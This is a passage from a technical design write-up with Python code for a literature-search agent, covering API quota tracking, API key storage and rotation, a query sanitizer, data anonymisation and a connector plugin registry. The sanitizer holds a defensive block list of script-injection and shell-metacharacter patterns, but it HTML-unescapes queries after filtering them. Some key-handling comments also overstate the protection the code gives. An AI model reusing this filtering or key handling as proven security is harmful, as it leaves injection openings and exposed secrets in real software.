    complex, overlapping time windows that many academic APIs implement.
    
    The timestamp tracking enables automatic counter resets when time windows expire,
    ensuring accurate quota calculations without requiring external scheduling.
    
    Attributes:
        requests_this_minute/hour/day: Current usage counters for each time window
        last_request_time: Timestamp of most recent API call
        last_*_reset: Timestamps of when each counter was last reset
    """
    requests_this_minute: int = 0
    requests_this_hour: int = 0
    requests_this_day: int = 0
    last_request_time: Optional[datetime] = None
    last_minute_reset: Optional[datetime] = None
    last_hour_reset: Optional[datetime] = None
    last_day_reset: Optional[datetime] = None

class APIQuotaManager:
    """
    Comprehensive API quota management with dynamic prioritization and fallback handling.
    
    This class serves as the central coordinator for all API usage across the Literature
    Search Agent. It implements intelligent quota management that goes beyond simple
    counting to provide predictive capabilities, dynamic source prioritization, and
    automatic fallback management.
    
    Key capabilities:
    - Multi-dimensional quota tracking (minute/hour/day limits)
    - Predictive quota availability checking
    - Dynamic source prioritization based on availability
    - Automatic fallback to alternative sources
    - Comprehensive usage reporting and analytics
    - Support for API-specific quota behaviors and reset patterns
    
    The manager maintains separate state for each academic source, enabling fine-grained
    control and optimization of API usage patterns across the entire system.
    """
    
    def __init__(self):
        """
        Initialize the quota manager with default configurations.
        
        The initialization sets up the core data structures and default prioritization
        rules. Source priorities are based on factors like reliability, data quality,
        response speed, and quota generosity, derived from operational experience.
        """
        # Track quota limits for each configured source
        self.quota_limits: Dict[str, QuotaLimit] = {}
        
        # Track current usage for each source
        self.quota_usage: Dict[str, QuotaUsage] = {}
        
        # Source prioritization based on reliability, quality, and quota generosity
        # Lower numbers indicate higher priority (1 = highest priority)
        self.source_priorities: Dict[str, int] = {
            'semantic_scholar': 1,  # Highest priority: excellent API, generous quotas
            'pubmed': 2,           # High priority: authoritative medical literature
            'crossref': 3,         # Medium priority: good metadata, reasonable quotas
            'arxiv': 4,            # Lower priority: preprints, more specialized
            'ieee': 5              # Lowest priority: specialized content, stricter quotas
        }
        
        # Define fallback chains for when primary sources become unavailable
        # These chains prioritize sources with similar content coverage
        self.fallback_sources: Dict[str, List[str]] = {
            'semantic_scholar': ['pubmed', 'crossref'],  # Medical/scientific fallbacks
            'pubmed': ['semantic_scholar', 'crossref'], # Broad scientific fallbacks
            'crossref': ['semantic_scholar', 'pubmed'], # Metadata-rich fallbacks
            'arxiv': ['semantic_scholar', 'crossref'],  # Scientific fallbacks for preprints
            'ieee': ['semantic_scholar', 'crossref']    # Technical literature fallbacks
        }
    
    def configure_source_limits(self, source: str, limits: QuotaLimit):
        """
        Configure quota limits for a specific academic source.
        
        This method establishes the quota parameters for an academic API, enabling
        the manager to enforce appropriate usage limits. The configuration should
        be based on the API documentation and any negotiated usage agreements.
        
        Args:
            source: Identifier for the academic source (e.g., 'pubmed', 'semantic_scholar')
            limits: QuotaLimit object defining the usage constraints
        """
        self.quota_limits[source] = limits
        
        # Initialize usage tracking if not already present
        if source not in self.quota_usage:
            self.quota_usage[source] = QuotaUsage()
    
    async def check_quota_availability(self, source: str, requests_needed: int = 1) -> Dict[str, Any]:
        """
        Check whether sufficient quota is available for a planned set of requests.
        
        This method implements predictive quota checking, determining whether the
        requested number of API calls can be made without violating any quota limits.
        The check considers all active time windows and calculates wait times when
        quotas are exhausted.
        
        The predictive approach prevents quota violations by checking before making
        requests, rather than handling rejections after the fact. This approach
        is more efficient and avoids potential API penalties for quota violations.
        
        Args:
            source: The academic source to check quota for
            requests_needed: Number of requests planned (default: 1)
            
        Returns:
            Dictionary containing availability status and detailed information:
            - available: Boolean indicating if quota is sufficient
            - reason: Explanation if quota is unavailable
            - wait_time_seconds: How long to wait if quota is exhausted
            - checks: Detailed breakdown of quota status by time window
        """
        # Handle unconfigured sources (assume unlimited access)
        if source not in self.quota_limits:
            return {'available': True, 'reason': 'no_limits_configured'}
        
        usage = self.quota_usage[source]
        limits = self.quota_limits[source]
        now = datetime.now()
        
        # Update usage counters based on elapsed time
        # This ensures accurate quota calculations by resetting expired time windows
        self._reset_usage_counters(source, now)
        
        # Check quota availability across all time windows
        # All windows must have sufficient quota for the request to proceed
        checks = {
            'minute': (usage.requests_this_minute + requests_needed) <= limits.requests_per_minute,
            'hour': (usage.requests_this_hour + requests_needed) <= limits.requests_per_hour,
            'day': (usage.requests_this_day + requests_needed) <= limits.requests_per_day
        }
        
        available = all(checks.values())
        
        if not available:
            # Calculate minimum wait time across all constrained windows
            # This provides actionable information about when the request can be retried
            wait_times = []
            
            if not checks['minute']:
                # Wait until the next minute boundary
                wait_times.append(60 - now.second)
            
            if not checks['hour']:
                # Wait until sufficient hourly quota becomes available
                wait_times.append((60 - now.minute) * 60 - now.second)
            
            if not checks['day']:
                # Wait until the next day boundary
                tomorrow = now.replace(hour=0, minute=0, second=0) + timedelta(days=1)
                wait_times.append((tomorrow - now).total_seconds())
            
            return {
                'available': False,
                'reason': 'quota_exceeded',
                'wait_time_seconds': min(wait_times) if wait_times else 0,
                'checks': checks,
                'requests_needed': requests_needed,
                'current_usage': {
                    'minute': usage.requests_this_minute,
                    'hour': usage.requests_this_hour,
                    'day': usage.requests_this_day
                }
            }
        
        return {
            'available': True, 
            'checks': checks,
            'headroom': {
                'minute': limits.requests_per_minute - usage.requests_this_minute,
                'hour': limits.requests_per_hour - usage.requests_this_hour,
                'day': limits.requests_per_day - usage.requests_this_day
            }
        }
```

    async def record_request(self, source: str, requests_count: int = 1):
        """Record API request usage."""
        if source not in self.quota_usage:
            self.quota_usage[source] = QuotaUsage()
        
        usage = self.quota_usage[source]
        now = datetime.now()
        
        usage.requests_this_minute += requests_count
        usage.requests_this_hour += requests_count
        usage.requests_this_day += requests_count
        usage.last_request_time = now
        
        logger.info("API request recorded",
                   source=source,
                   requests_count=requests_count,
                   minute_total=usage.requests_this_minute,
                   hour_total=usage.requests_this_hour,
                   day_total=usage.requests_this_day)
    
    def _reset_usage_counters(self, source: str, current_time: datetime):
        """Reset usage counters based on time windows."""
        usage = self.quota_usage[source]
        
        # Reset minute counter
        if (not usage.last_minute_reset or 
            current_time.minute != usage.last_minute_reset.minute):
            usage.requests_this_minute = 0
            usage.last_minute_reset = current_time
        
        # Reset hour counter
        if (not usage.last_hour_reset or 
            current_time.hour != usage.last_hour_reset.hour):
            usage.requests_this_hour = 0
            usage.last_hour_reset = current_time
        
        # Reset day counter
        if (not usage.last_day_reset or 
            current_time.date() != usage.last_day_reset.date()):
            usage.requests_this_day = 0
            usage.last_day_reset = current_time
    
    async def get_optimal_sources(self, requested_sources: List[str], 
                                 requests_needed: int) -> List[str]:
        """Get optimal source order based on quota availability and priorities."""
        available_sources = []
        
        # Sort requested sources by priority
        sorted_sources = sorted(requested_sources, 
                              key=lambda x: self.source_priorities.get(x, 999))
        
        for source in sorted_sources:
            quota_check = await self.check_quota_availability(source, requests_needed)
            if quota_check['available']:
                available_sources.append(source)
            else:
                logger.warning("Source quota unavailable",
                             source=source,
                             reason=quota_check.get('reason'),
                             wait_time=quota_check.get('wait_time_seconds'))
        
        # Add fallback sources if primary sources are unavailable
        if len(available_sources) < len(requested_sources):
            for source in sorted_sources:
                if source not in available_sources:
                    fallbacks = self.fallback_sources.get(source, [])
                    for fallback in fallbacks:
                        if fallback not in requested_sources and fallback not in available_sources:
                            quota_check = await self.check_quota_availability(fallback, requests_needed)
                            if quota_check['available']:
                                available_sources.append(fallback)
                                logger.info("Using fallback source",
                                          original_source=source,
                                          fallback_source=fallback)
                                break
        
        return available_sources
    
    def get_quota_status_report(self) -> Dict[str, Any]:
        """Generate comprehensive quota status report."""
        report = {
            'timestamp': datetime.now().isoformat(),
            'sources': {}
        }
        
        for source, usage in self.quota_usage.items():
            limits = self.quota_limits.get(source)
            if limits:
                report['sources'][source] = {
                    'usage': {
                        'minute': f"{usage.requests_this_minute}/{limits.requests_per_minute}",
                        'hour': f"{usage.requests_this_hour}/{limits.requests_per_hour}",
                        'day': f"{usage.requests_this_day}/{limits.requests_per_day}"
                    },
                    'utilization': {
                        'minute': usage.requests_this_minute / limits.requests_per_minute,
                        'hour': usage.requests_this_hour / limits.requests_per_hour,
                        'day': usage.requests_this_day / limits.requests_per_day
                    },
                    'last_request': usage.last_request_time.isoformat() if usage.last_request_time else None
                }
        
        return report

class ResourceOptimizer:
    """Optimize resource usage across multiple sources."""

    def __init__(self, quota_manager: APIQuotaManager):
        self.quota_manager = quota_manager
        self.performance_metrics = {}
    
    async def distribute_requests(self, total_requests: int, 
                                 sources: List[str]) -> Dict[str, int]:
        """Intelligently distribute requests across sources."""
        distribution = {}
        remaining_requests = total_requests
        
        # Get available sources with quota
        available_sources = []
        for source in sources:
            quota_check = await self.quota_manager.check_quota_availability(
                source, total_requests // len(sources)
            )
            if quota_check['available']:
                available_sources.append(source)
        
        if not available_sources:
            logger.error("No sources available for request distribution")
            return {}
        
        # Distribute based on priority and quota availability
        base_allocation = remaining_requests // len(available_sources)
        
        for source in available_sources:
            allocation = min(base_allocation, remaining_requests)
            distribution[source] = allocation
            remaining_requests -= allocation
        
        # Distribute remaining requests to highest priority sources
        for source in sorted(available_sources, 
                           key=lambda x: self.quota_manager.source_priorities.get(x, 999)):
            if remaining_requests <= 0:
                break
            
            quota_check = await self.quota_manager.check_quota_availability(
                source, distribution[source] + 1
            )
            if quota_check['available']:
                distribution[source] += 1
                remaining_requests -= 1
        
        return distribution

```

## Security and Compliance Framework

Security is paramount in academic research systems, where protecting sensitive research data, maintaining user privacy, and ensuring compliance with various regulations are critical requirements. The Literature Search Agent implements a comprehensive security framework that addresses multiple threat vectors while maintaining usability and performance.

The security framework encompasses several key areas:

1. **API Key Management**: Secure storage, retrieval, and rotation of sensitive API credentials
2. **Query Sanitization**: Protection against injection attacks and malicious input
3. **Data Protection**: Privacy-preserving handling of user data and research queries
4. **Audit Logging**: Comprehensive tracking of data access for compliance requirements
5. **Encryption**: Protection of sensitive data both at rest and in transit

### API Key Management and Security

API keys represent a significant security risk in any system that integrates with external services. Compromised keys can lead to unauthorized access, quota exhaustion, service disruption, and potential data breaches. The Literature Search Agent implements multiple layers of protection for API credentials.

```python
import os
import keyring
from cryptography.fernet import Fernet
from typing import Dict, Optional
import base64
import hashlib

class SecureKeyManager:
    """
    Comprehensive security system for API keys and sensitive configuration data.
    
    This class implements a defense-in-depth approach to API key security, providing
    multiple storage options with fallback mechanisms. The system prioritizes security
    while maintaining operational reliability through redundant storage methods.
    
    Security features:
    - System keyring integration for hardware-backed security
    - Symmetric encryption for environment variable storage
    - In-memory caching with automatic cleanup
    - Key rotation capabilities with secure cleanup
    - Audit logging for all key operations
    
    The multi-tier approach ensures that even if one security layer is compromised,
    the API keys remain protected through alternative mechanisms.
    """
    
    def __init__(self, encryption_key: Optional[bytes] = None):
        """
        Initialize the secure key manager with encryption capabilities.
        
        The initialization sets up encryption infrastructure and prepares the
        caching system. The encryption key can be provided explicitly or
        generated automatically from environment variables.
        
        Args:
            encryption_key: Optional pre-generated encryption key for consistency
                          across multiple instances (useful in distributed deployments)
        """
        # Initialize encryption system for fallback storage
        self.encryption_key = encryption_key or self._generate_encryption_key()
        self.cipher_suite = Fernet(self.encryption_key)
        
        # In-memory cache for performance optimization
        # Keys are only cached after successful retrieval and validation
        self.key_cache = {}
    
    def _generate_encryption_key(self) -> bytes:
        """
        Generate or retrieve encryption key for API key protection.
        
        This method implements a tiered approach to encryption key management:
        1. Use pre-configured key from environment (for production consistency)
        2. Generate new key for development/testing environments
        
        The environment-based approach enables consistent encryption across
        multiple instances while maintaining security through proper key management.
        
        Returns:
            32-byte encryption key suitable for Fernet symmetric encryption
        """
        # Check for pre-configured encryption key
        key_material = os.environ.get('LSA_ENCRYPTION_KEY')
        if key_material:
            try:
                # Decode base64-encoded key from environment
                return base64.urlsafe_b64decode(key_material.encode())
            except Exception as e:
                logger.warning("Invalid encryption key in environment", error=str(e))
        
        # Generate new key for new deployments
        # In production, this key should be saved securely for consistency
        new_key = Fernet.generate_key()
        logger.info("Generated new encryption key - save LSA_ENCRYPTION_KEY for consistency")
        return new_key
    
    def store_api_key(self, service_name: str, api_key: str):
        """
        Securely store an API key using the most secure available method.
        
        This method implements a tiered storage approach, attempting to use the
        most secure option available and falling back to alternatives if needed.
        The approach ensures maximum security while maintaining operational reliability.
        
        Storage priority:
        1. System keyring (hardware-backed security on supported systems)
        2. Encrypted environment variables (software-based encryption)
        3. Logging and error handling for security audit trails
        
        Args:
            service_name: Identifier for the service (e.g., 'pubmed', 'semantic_scholar')
            api_key: The sensitive API key to store securely
        """
        try:
            # Primary storage: System keyring (most secure)
            # This uses operating system security features like Windows Credential Manager,
            # macOS Keychain, or Linux Secret Service for hardware-backed protection
            keyring.set_password("eunice_lsa", service_name, api_key)
            logger.info("API key stored securely in system keyring", service=service_name)
            
        except Exception as e:
            # Fallback storage: Encrypted environment variable
            # This provides software-based encryption when keyring is unavailable
            logger.warning("System keyring unavailable, using encrypted storage", 
                         service=service_name, error=str(e))
            
            try:
                # Encrypt the API key using Fernet symmetric encryption
                encrypted_key = self.cipher_suite.encrypt(api_key.encode())
                
                # Store as base64-encoded environment variable
                env_var_name = f"LSA_{service_name.upper()}_KEY_ENCRYPTED"
                os.environ[env_var_name] = base64.urlsafe_b64encode(encrypted_key).decode()
                
                logger.info("API key stored with encryption", service=service_name)
                
            except Exception as encrypt_error:
                # Log encryption failure for security monitoring
                logger.error("Failed to encrypt API key", 
                           service=service_name, error=str(encrypt_error))
                raise
    
    def get_api_key(self, service_name: str) -> Optional[str]:
        """
        Securely retrieve an API key using multiple fallback methods.
        
        This method implements a comprehensive retrieval strategy that attempts
        multiple storage locations in order of security preference. The approach
        ensures maximum availability while maintaining audit trails for security monitoring.
        
        Retrieval strategy:
        1. Check in-memory cache for performance
        2. Attempt system keyring retrieval (most secure)
        3. Try encrypted environment variable (fallback)
        4. Use plain environment variable (development only)
        5. Log failure for security monitoring
        
        Args:
            service_name: Identifier for the service whose key is needed
            
        Returns:
            The API key if found, None if not available through any method
        """
        # Performance optimization: Check cache first
        # This reduces system calls for frequently accessed keys
        if service_name in self.key_cache:
            return self.key_cache[service_name]
        
        # Primary retrieval: System keyring
        try:
            api_key = keyring.get_password("eunice_lsa", service_name)
            if api_key:
                # Cache successful retrieval for performance
                self.key_cache[service_name] = api_key
                logger.debug("API key retrieved from keyring", service=service_name)
                return api_key
        except Exception as e:
            logger.debug("Keyring retrieval failed", service=service_name, error=str(e))
        
        # Fallback retrieval: Encrypted environment variable
        env_var_name = f"LSA_{service_name.upper()}_KEY_ENCRYPTED"
        encrypted_key_b64 = os.environ.get(env_var_name)
        if encrypted_key_b64:
            try:
                # Decode and decrypt the stored key
                encrypted_key = base64.urlsafe_b64decode(encrypted_key_b64.encode())
                api_key = self.cipher_suite.decrypt(encrypted_key).decode()
                
                # Cache successful retrieval
                self.key_cache[service_name] = api_key
                logger.debug("API key retrieved from encrypted storage", service=service_name)
                return api_key
                
            except Exception as e:
                logger.error("Failed to decrypt API key", 
                           service=service_name, error=str(e))
        
        # Development fallback: Plain environment variable
        # This should only be used in development environments
        plain_env_var = f"{service_name.upper()}_API_KEY"
        plain_key = os.environ.get(plain_env_var)
        if plain_key:
            logger.warning("Using plain text API key - not recommended for production", 
                         service=service_name)
            self.key_cache[service_name] = plain_key
            return plain_key
        
        # Log failure for security monitoring
        logger.error("No API key found for service", service=service_name)
        return None
    
    def rotate_api_key(self, service_name: str, new_api_key: str):
        """
        Rotate an API key with secure cleanup of old credentials.
        
        Key rotation is a critical security practice that limits the impact of
        potential key compromise. This method implements secure rotation with
        proper cleanup and audit logging.
        
        Rotation process:
        1. Store new key using secure storage method
        2. Clear cached old key from memory
        3. Log rotation event for audit trails
        4. Verify new key is accessible
        
        Args:
            service_name: Service whose key is being rotated
            new_api_key: The new API key to replace the old one
        """
        # Store the new key securely
        self.store_api_key(service_name, new_api_key)
        
        # Clear old key from cache to force refresh
        if service_name in self.key_cache:
            # Secure cleanup: overwrite memory before deletion
            old_key = self.key_cache[service_name]
            self.key_cache[service_name] = 'X' * len(old_key)  # Overwrite
            del self.key_cache[service_name]  # Remove
        
        # Create audit log entry for the rotation
        logger.info("API key rotated successfully", 
                   service=service_name, 
                   timestamp=datetime.now().isoformat(),
                   audit_event="api_key_rotation")
        
        # Verify new key is accessible
        retrieved_key = self.get_api_key(service_name)
        if not retrieved_key:
            logger.error("Key rotation verification failed", service=service_name)
            raise ValueError(f"Failed to verify rotated key for {service_name}")
```

class QuerySanitizer:
    """Sanitize and validate search queries for security."""

    BLOCKED_PATTERNS = [
        r'<script[^>]*>.*?</script>',  # Script injection
        r'javascript:',                # JavaScript protocols
        r'data:text/html',            # Data URLs
        r'[;&|`$]',                   # Command injection chars
    ]
    
    MAX_QUERY_LENGTH = 1000
    
    @classmethod
    def sanitize_query(cls, query: str) -> str:
        """Sanitize search query to prevent injection attacks."""
        import re
        
        if len(query) > cls.MAX_QUERY_LENGTH:
            logger.warning("Query truncated for security", 
                         original_length=len(query),
                         max_length=cls.MAX_QUERY_LENGTH)
            query = query[:cls.MAX_QUERY_LENGTH]
        
        # Remove blocked patterns
        for pattern in cls.BLOCKED_PATTERNS:
            query = re.sub(pattern, '', query, flags=re.IGNORECASE)
        
        # Basic HTML entity decoding to prevent double encoding
        import html
        query = html.unescape(query)
        
        # Remove null bytes and control characters
        query = ''.join(char for char in query if ord(char) >= 32 or char in '\t\n\r')
        
        return query.strip()
    
    @classmethod
    def validate_query(cls, query: str) -> Dict[str, Any]:
        """Validate query and return security assessment."""
        issues = []
        
        if len(query) > cls.MAX_QUERY_LENGTH:
            issues.append(f"Query exceeds maximum length ({cls.MAX_QUERY_LENGTH})")
        
        for pattern in cls.BLOCKED_PATTERNS:
            if re.search(pattern, query, re.IGNORECASE):
                issues.append(f"Query contains blocked pattern: {pattern}")
        
        return {
            'is_safe': len(issues) == 0,
            'issues': issues,
            'sanitized_query': cls.sanitize_query(query)
        }

class DataProtectionManager:
    """Manage data protection and privacy compliance."""

    def __init__(self):
        self.sensitive_fields = {'user_id', 'email', 'ip_address', 'session_id'}
        self.anonymization_cache = {}
    
    def anonymize_user_data(self, data: Dict[str, Any]) -> Dict[str, Any]:
        """Anonymize sensitive user data."""
        anonymized_data = data.copy()
        
        for field in self.sensitive_fields:
            if field in anonymized_data:
                # Generate consistent hash for anonymization
                original_value = str(anonymized_data[field])
                if original_value not in self.anonymization_cache:
                    hash_value = hashlib.sha256(original_value.encode()).hexdigest()[:12]
                    self.anonymization_cache[original_value] = f"anon_{hash_value}"
                
                anonymized_data[field] = self.anonymization_cache[original_value]
        
        return anonymized_data
    
    def audit_data_access(self, operation: str, data_type: str, user_context: str):
        """Log data access for compliance auditing."""
        logger.info("Data access audit",
                   operation=operation,
                   data_type=data_type,
                   user_context=user_context,
                   timestamp=datetime.now().isoformat(),
                   audit_trail=True)

```

## Extensible Connector Framework

The Literature Search Agent's architecture emphasizes modularity and extensibility, allowing researchers to integrate new academic sources without modifying core system components. The connector framework provides a standardized interface for academic databases, repositories, and APIs while maintaining consistent behavior across all sources.

This plugin-based architecture addresses several critical needs in academic research:

1. **Rapid Integration**: New academic sources can be added without system downtime
2. **Source Diversity**: Support for various API types, authentication methods, and data formats
3. **Quality Consistency**: Standardized data normalization across all sources
4. **Performance Optimization**: Source-specific optimization strategies
5. **Maintenance Isolation**: Updates to individual connectors don't affect other components

### Plugin Architecture for Source Connectors

The connector framework implements a plugin architecture based on Python's Protocol system, providing type safety while maintaining flexibility. Each connector implements a standardized interface that ensures consistent behavior across all academic sources.

The architecture consists of three main components:

1. **Base Connector Protocol**: Defines the standard interface that all connectors must implement
2. **Connector Registry**: Manages connector lifecycle, discovery, and error handling
3. **Connector Factory**: Handles connector instantiation and configuration management

```python
from abc import ABC, abstractmethod
from typing import Protocol, Dict, List, Any, Optional, AsyncGenerator
import asyncio
import inspect
from dataclasses import dataclass
from enum import Enum

class SourceType(Enum):
    """
    Enumeration of supported academic source types.
    
    This classification helps the system understand the capabilities and
    limitations of each source, enabling intelligent query routing and
    result optimization strategies.
    """
    ACADEMIC_DATABASE = "academic_database"      # PubMed, Scopus, Web of Science
    PREPRINT_SERVER = "preprint_server"         # arXiv, bioRxiv, medRxiv
    INSTITUTIONAL_REPO = "institutional_repo"    # University repositories
    PUBLISHER_API = "publisher_api"             # Direct publisher APIs
    CITATION_INDEX = "citation_index"           # Citation tracking services
    GREY_LITERATURE = "grey_literature"         # Reports, theses, conference proceedings

@dataclass
class SourceCapabilities:
    """
    Detailed capability matrix for academic sources.
    
    This data structure allows the system to understand what each source
    can provide, enabling intelligent query optimization and result merging.
    The capabilities matrix helps the query planner decide which sources
    to query for specific research needs.
    """
    # Basic search capabilities
    supports_keyword_search: bool = True
    supports_phrase_search: bool = False
    supports_boolean_operators: bool = False
    supports_field_specific_search: bool = False
    
    # Advanced search features
    supports_citation_search: bool = False
    supports_author_disambiguation: bool = False
    supports_subject_classification: bool = False
    supports_date_range_filtering: bool = True
    
    # Data availability and quality
    provides_full_text: bool = False
    provides_abstracts: bool = True
    provides_citations: bool = False
    provides_impact_metrics: bool = False
    provides_subject_tags: bool = False
    
    # Performance characteristics
    rate_limit_per_minute: int = 60
    rate_limit_per_hour: int = 1000
    rate_limit_per_day: int = 10000
    average_response_time_ms: int = 1000
    
    # Authentication and access
    requires_api_key: bool = True
    requires_institutional_access: bool = False
    supports_anonymous_access: bool = False

class BaseSourceConnector(Protocol):
    """
    Protocol definition for academic source connectors.
    
    This protocol establishes the contract that all source connectors must
    implement, ensuring consistent behavior across different academic databases
    and repositories. The protocol uses Python's structural typing to provide
    flexibility while maintaining type safety.
    
    Key design principles:
    - Asynchronous operations for performance at scale
    - Standardized error handling and retry mechanisms
    - Consistent data structures across all sources
    - Built-in rate limiting and quota management
    - Comprehensive logging for debugging and monitoring
    """
    
    # Required metadata properties
    source_name: str
    source_type: SourceType
    capabilities: SourceCapabilities
    
    async def initialize(self, config: Dict[str, Any]) -> bool:
        """
        Initialize the connector with configuration and credentials.
        
        This method prepares the connector for operation by setting up
        authentication, validating configuration, and testing connectivity.
        The initialization process is designed to fail fast if there are
        configuration issues or connectivity problems.
        
        Args:
            config: Dictionary containing API keys, endpoints, and other configuration
            
        Returns:
            True if initialization successful, False otherwise
            
        Raises:
            ConfigurationError: If required configuration is missing or invalid
            AuthenticationError: If API credentials are invalid
            ConnectivityError: If the source is unreachable
        """
        ...
    
    async def search(self, 
                    query: str, 
                    filters: Optional[Dict[str, Any]] = None,
                    limit: int = 100) -> AsyncGenerator[Dict[str, Any], None]:
        """
        Execute a search query against the academic source.
        
        This is the core method that performs literature searches. The method
        uses an async generator pattern to enable streaming results and
        minimize memory usage for large result sets.
        
        The returned results follow a standardized schema that enables
        consistent processing across all sources, regardless of their
        native data formats.
        
        Args:
            query: The research query string to execute
            filters: Optional dictionary of search filters (dates, subjects, etc.)
            limit: Maximum number of results to return
            
        Yields:
            Standardized result dictionaries with normalized field names
            
        Raises:
            QueryError: If the query is malformed or unsupported
            RateLimitError: If rate limits are exceeded
            ServiceError: If the source service is unavailable
        """
        ...
    
    async def get_article_details(self, article_id: str) -> Optional[Dict[str, Any]]:
        """
        Retrieve detailed information for a specific article.
        
        This method provides access to comprehensive article metadata,
        including full abstracts, citation information, and any available
        full-text content. The method is optimized for individual article
        retrieval rather than bulk operations.
        
        Args:
            article_id: Source-specific identifier for the article
            
        Returns:
            Detailed article information or None if not found
            
        Raises:
            ArticleNotFoundError: If the article ID is invalid
            AccessDeniedError: If full access requires additional permissions
        """
        ...
    
    async def validate_connection(self) -> Dict[str, Any]:
        """
        Validate connector health and API connectivity.
        
        This method performs comprehensive health checks to ensure the
        connector is functioning properly. The health check includes
        authentication validation, API endpoint accessibility, and
        performance metrics collection.
        
        Returns:
            Dictionary containing health status, performance metrics, and diagnostic info
        """
        ...
    
    async def get_usage_stats(self) -> Dict[str, Any]:
        """
        Retrieve current API usage statistics and quota information.
        
        This method provides real-time information about API usage,
        remaining quotas, and rate limit status. The information is
        used by the quota management system to optimize query distribution.
        
        Returns:
            Dictionary containing usage statistics and quota information
        """
        ...

class ConnectorRegistry:
    """
    Central registry for managing source connectors and their lifecycle.
    
    The registry provides connector discovery, instantiation, health monitoring,
    and graceful error handling. It implements a plugin architecture that
    allows dynamic loading of new connectors without system restarts.
    
    Key features:
    - Dynamic connector discovery and loading
    - Health monitoring and automatic failover
    - Configuration management and validation
    - Performance metrics collection
    - Error isolation and recovery
    """
    
    def __init__(self):
        """
        Initialize the connector registry with empty state.
        
        The registry starts with no connectors loaded and builds its
        catalog through discovery and registration processes.
        """
        # Core connector storage and management
        self._connectors: Dict[str, BaseSourceConnector] = {}
        self._connector_configs: Dict[str, Dict[str, Any]] = {}
        self._connector_health: Dict[str, Dict[str, Any]] = {}
        
        # Performance and reliability tracking
        self._performance_metrics: Dict[str, Dict[str, float]] = {}
        self._error_counts: Dict[str, int] = {}
        self._last_health_check: Dict[str, float] = {}
        
        # Configuration and logging
        self.logger = structlog.get_logger("connector.registry")
        
    async def register_connector(self, 
                                connector_class: type, 
                                config: Dict[str, Any]) -> bool:
        """
        Register a new source connector with the system.
        
        This method handles the complete connector registration process,
        including instantiation, configuration validation, initialization,
        and health verification. The process is designed to be atomic,
        ensuring that connectors are only added if they're fully functional.
        
        Registration process:
        1. Validate connector class implements required protocol
        2. Instantiate connector with provided configuration
        3. Initialize connector and verify connectivity
        4. Add to active connector registry
        5. Start health monitoring
        
        Args:
            connector_class: Class that implements BaseSourceConnector protocol
            config: Configuration dictionary for the connector
            
        Returns:
            True if registration successful, False otherwise
        """
        try:
            # Validate connector class implements required protocol
            if not self._validate_connector_protocol(connector_class):
                self.logger.error("Connector class does not implement required protocol",
                                connector_class=connector_class.__name__)
                return False
            
            # Instantiate the connector
            connector_instance = connector_class()
            
            # Validate required attributes exist
            required_attrs = ['source_name', 'source_type', 'capabilities']
            for attr in required_attrs:
                if not hasattr(connector_instance, attr):
                    self.logger.error("Connector missing required attribute",
                                    connector_class=connector_class.__name__,
                                    missing_attribute=attr)
                    return False
            
            # Initialize the connector with configuration
            source_name = connector_instance.source_name
            initialization_success = await connector_instance.initialize(config)
            
            if not initialization_success:
                self.logger.error("Connector initialization failed",
                                source_name=source_name)
                return False
            
            # Validate connectivity with health check
            health_status = await connector_instance.validate_connection()
            if not health_status.get('healthy', False):
                self.logger.error("Connector health check failed",
                                source_name=source_name,
                                health_status=health_status)
                return False
            
            # Register the connector in the active registry
            self._connectors[source_name] = connector_instance
            self._connector_configs[source_name] = config.copy()
            self._connector_health[source_name] = health_status
            self._performance_metrics[source_name] = {}
            self._error_counts[source_name] = 0
            self._last_health_check[source_name] = time.time()
            
            self.logger.info("Connector registered successfully",
                           source_name=source_name,
                           source_type=connector_instance.source_type.value,
                           capabilities=connector_instance.capabilities.__dict__)
            
            return True
            
        except Exception as e:
            self.logger.error("Connector registration failed",
                            connector_class=connector_class.__name__,
                            error=str(e),
                            error_type=type(e).__name__)
            return False
    
    def _validate_connector_protocol(self, connector_class: type) -> bool:
        """
        Validate that a connector class implements the required protocol.
        
        This method uses introspection to verify that the connector class
        implements all required methods with correct signatures. The validation
        ensures protocol compliance without requiring inheritance.
        
        Args:
            connector_class: The connector class to validate
            
        Returns:
            True if class implements required protocol, False otherwise
        """
        required_methods = {
            'initialize': ['config'],
            'search': ['query', 'filters', 'limit'],
            'get_article_details': ['article_id'],
            'validate_connection': [],
            'get_usage_stats': []
        }
        
        for method_name, expected_params in required_methods.items():
            if not hasattr(connector_class, method_name):
                self.logger.debug("Missing required method",
                                method=method_name,
                                connector_class=connector_class.__name__)
                return False
            
            # Validate method signature
            method = getattr(connector_class, method_name)
            if callable(method):
                sig = inspect.signature(method)
                method_params = list(sig.parameters.keys())[1:]  # Skip 'self'
                
                # Check that all expected parameters are present
                for param in expected_params:
                    if param not in method_params:
                        self.logger.debug("Method missing required parameter",
                                        method=method_name,
                                        missing_param=param,
                                        connector_class=connector_class.__name__)
                        return False
        
        return True
    
    async def get_available_connectors(self) -> List[Dict[str, Any]]:
        """
        Retrieve list of all available and healthy connectors.
        
        This method provides a comprehensive view of the connector ecosystem,
        including health status, capabilities, and performance metrics.
        The information is used by the query planner to make intelligent
        routing decisions.
        
        Returns:
            List of dictionaries containing connector information and status
        """
        available_connectors = []
        
        for source_name, connector in self._connectors.items():
            # Get current health status
            health_status = self._connector_health.get(source_name, {})
            
            # Compile connector information
            connector_info = {
                'source_name': source_name,
                'source_type': connector.source_type.value,
                'capabilities': connector.capabilities.__dict__,
                'health_status': health_status,
                'performance_metrics': self._performance_metrics.get(source_name, {}),
                'error_count': self._error_counts.get(source_name, 0),
                'last_health_check': self._last_health_check.get(source_name, 0)
            }
            
            available_connectors.append(connector_info)
        
        return available_connectors
    
    async def execute_search_across_sources(self, 
                                          query: str,
                                          source_filters: Optional[List[str]] = None,
                                          limit_per_source: int = 50) -> AsyncGenerator[Dict[str, Any], None]:
        """
        Execute a search query across multiple academic sources simultaneously.
        
        This method implements intelligent query distribution across available
        connectors, with error isolation, rate limiting, and result aggregation.
        The parallel execution strategy maximizes research coverage while
        maintaining performance and reliability.
        
        Features:
        - Parallel execution across all available sources
        - Intelligent error handling and retry logic
        - Rate limiting and quota management
        - Result deduplication and quality scoring
        - Performance monitoring and optimization
        
        Args:
            query: The research query to execute
            source_filters: Optional list of specific sources to query
            limit_per_source: Maximum results per source
            
        Yields:
            Standardized search results from all sources
        """
        # Determine which connectors to query
        target_connectors = {}
        if source_filters:
            # Use only specified sources
            for source_name in source_filters:
                if source_name in self._connectors:
                    target_connectors[source_name] = self._connectors[source_name]
        else:
            # Use all healthy connectors
            for source_name, connector in self._connectors.items():
                health_status = self._connector_health.get(source_name, {})
                if health_status.get('healthy', False):
